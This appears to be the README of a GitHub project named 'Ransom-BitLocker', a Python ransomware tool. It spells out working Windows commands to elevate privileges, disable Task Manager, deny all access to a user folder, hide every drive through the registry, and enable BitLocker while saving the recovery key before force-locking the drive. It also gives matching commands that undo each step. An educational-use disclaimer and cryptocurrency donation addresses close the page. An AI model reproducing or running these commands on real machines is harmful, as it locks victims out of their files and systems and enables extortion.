 <div align="center">
  <h1><b>Ransom-BitLocker (Encryption & Decryption)</b></h1>
  <img src="Bitlocker.png" alt="BitLocker" width="300">
</div>

## Requirements
- **Python Version**: 3.11.4 (Version I'm using)
- **Dependencies**: Install the required Python package using
  ```bash
  pip install requests

## Run Command
- Add this code at the top of `EncryptionBitLocker.py` and `DecryptionBitLocker.py` to ensure admin privileges:
  ```python
  import ctypes
  import sys

  def run_as_admin():
      if ctypes.windll.shell32.IsUserAnAdmin():
          return
      else:
          ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, __file__, None, 1)
          sys.exit()

  run_as_admin()
  
## Information About Encryption
1. **Disable TaskManager**  
   - **Note**: Disable TaskManager immediately (Return `1` to disable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
     ```

2. **Lock User Folder**  
   - **Note**: Deny all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /deny everyone:(OI)(CI)F
     ```

3. **Hide All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `67108863` is the total parameters of all drives that need to be hidden  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 67108863 /f
     ```

4. **Generate Recovery Key and Lock Drive**  
   - **Turn on BitLocker and save the recovery key**:  
     ```cmd
     manage-bde -on {drive_letter}: -rp -used > {file_path}
     ```  
   - **Lock the drive and disconnect other programs using that drive**:  
     ```cmd
     manage-bde -lock {drive_letter}: -ForceDismount
     ```

## Information About Decryption
1. **Enable TaskManager**  
   - **Note**: Enable TaskManager immediately (Return `0` to enable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 0 /f
     ```

2. **Unlock User Folder**  
   - **Note**: Allow all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /remove:d everyone
     ```

3. **Show All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `0` to show all drives (remove hiding)  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 0 /f
     ```

4. **BitLocker Decryption**  
   - **Unlock BitLocker encrypted `{drive_letter}` drive using recovery password `{recovery_key}`**:  
     ```cmd
     manage-bde -unlock {drive_letter}: -RecoveryPassword {recovery_key}
     ```  
   - **Turn off BitLocker encryption on drive `{drive_letter}`**:  
     ```cmd
     manage-bde -off {drive_letter}
     ```
## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This project is intended solely for **educational and research purposes**. It provides tools and examples for understanding BitLocker encryption and decryption mechanisms. **Do not use this project for any malicious or unauthorized activities**, as such actions may violate applicable laws and regulations.

The author is not responsible for any damage, data loss, or legal consequences resulting from the use or misuse of this project. Always test and validate the code in a controlled, secure environment before applying it to critical systems. Ensure you have proper authorization and backups before performing any encryption or decryption operations.

## Donate ⭐
- **USDT (TRC-20)**: `TCLCdvvvgy6Pbj5VnTzaYBwGKzBDyBEyGL`
- **BTC**: `3EALRZzA5vp7i6kXhELTujphiJC4WwZESF`
